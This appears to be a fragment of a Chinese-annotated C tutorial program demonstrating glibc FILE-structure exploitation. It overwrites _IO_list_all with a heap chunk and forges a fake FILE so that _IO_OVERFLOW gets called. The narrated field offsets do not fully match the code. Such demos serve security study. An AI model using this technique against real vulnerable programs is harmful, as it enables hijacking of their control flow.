 ```c
                 "  FILE *fp;\n"
                 "\n"
                 "#ifdef _IO_MTSAFE_IO\n"
                 "  _IO_cleanup_region_start_noarg (flush_cleanup);\n"
                 "  _IO_lock_lock (list_all_lock);\n"
                 "#endif\n"
                 "\n"
                 "  \033[1;31mfor (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)\n"
                 "    {\n"
                 "      run_fp = fp;\n"
                 "      if (do_lock)\n"
                 "\t_IO_flockfile (fp);\n"
                 "\n"
                 "      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)\n"
                 "\t   || (_IO_vtable_offset (fp) == 0\n"
                 "\t       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr\n"
                 "\t\t\t\t    > fp->_wide_data->_IO_write_base))\n"
                 "\t   )\n"
                 "\t  && _IO_OVERFLOW (fp, EOF) == EOF)\n"
                 "\tresult = EOF;\n"
                 "\n"
                 "      if (do_lock)\n"
                 "\t_IO_funlockfile (fp);\n"
                 "      run_fp = NULL;\n"
                 "    }\n\033[1;" PURPLE "m"
                 "\n"
                 "#ifdef _IO_MTSAFE_IO\n"
                 "  _IO_lock_unlock (list_all_lock);\n"
                 "  _IO_cleanup_region_end (0);\n"
                 "#endif\n"
                 "\n"
                 "  return result;\n"
                 "}\n\n");
    printf_color(GREEN, UNDEFINED, "注意红色部分的代码，这便是遍历_IO_list_all链中的所有FILE实例。\n");
    printf_color(GREEN, UNDEFINED, "其中一条if语句的判断条件中会调用_IO_OVERFLOW函数。\n");
    printf_color(GREEN, UNDEFINED, "这个函数指的是vtable中overflow那个字段对应的函数。\n");
    printf_color(GREEN, UNDEFINED, "要执行到这个函数，就必须要让前面一个判断条件满足。\n");
    printf_color(GREEN, UNDEFINED, "这也就是我们伪造FILE结构体时需要注意的地方。\n");
    printf_color(GREEN, UNDEFINED, "下面我们就来修改_IO_list_all的值，用一个chunk地址填充。\n");

    size_t chunk_2 = (size_t) calloc(1, 0xF0) - 0x10;
    // ---------- 第二处漏洞利用 ---------- //
    *_IO_list_all = chunk_2;
    // --------------------------------- //
    printf_color(YELLOW, HIGHLIGHT, "这个chunk的起始地址为：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n" STR_END, chunk_2);

    printf_color(RED, HIGHLIGHT, "第四步：伪造FILE结构体。\n");
    printf_color(GREEN, UNDEFINED, "我们使用第二次分配到的chunk作为假FILE结构体进行构造。\n");
    printf_color(GREEN, UNDEFINED, "再次强调注意_IO_flush_all_lockp函数的限定条件。\n");
    printf_color(GREEN, UNDEFINED, "if语句的前一个判断条件是两个判断相或，我们只需要满足第一个判断即可：\n");
    printf_color(RED, HIGHLIGHT, "fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base\n");
    printf_color(GREEN, UNDEFINED, "其中_mode字段的偏移为0xC0，_IO_write_ptr为0x28，_IO_write_base为0x30。\n");
    printf_color(GREEN, UNDEFINED, "我们在_mode处填0，在_IO_write_ptr填1，在_IO_write_base填0就可以了。\n");

    size_t* fake_FILE = (size_t*) chunk_2;
    fake_FILE[0xC0 / 8] = 0;    // _mode
    fake_FILE[0x20 / 8] = 1;
    fake_FILE[0x28 / 8] = 0xFFFFFFFFFFFF;    // _IO_write_ptr
    fake_FILE[0x30 / 8] = 0;    // _IO_write_base

    printf_color(GREEN, UNDEFINED, "三个字段修改完成。但我们需要修改的可不止这三个字段。\n");
    printf_color(GREEN, UNDEFINED, "在这个判断条件通过后，我们将会进入overflow函数。\n");
```